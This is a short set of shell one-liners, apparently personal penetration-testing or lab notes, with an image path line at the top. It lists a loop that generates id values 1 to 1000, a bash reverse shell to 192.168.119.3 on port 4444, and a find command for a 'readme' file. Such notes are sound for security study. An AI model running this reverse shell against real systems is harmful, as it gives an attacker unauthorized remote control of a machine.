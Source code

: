 
`for i in $(seq 1 1000); do echo $i >> ids.txt; done` - generates value of id parameter 1-1000

`bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"` - utilize to get a reverse shell

`find / -name "readme" 2>/dev/null` - locate a folder and print the location of the folder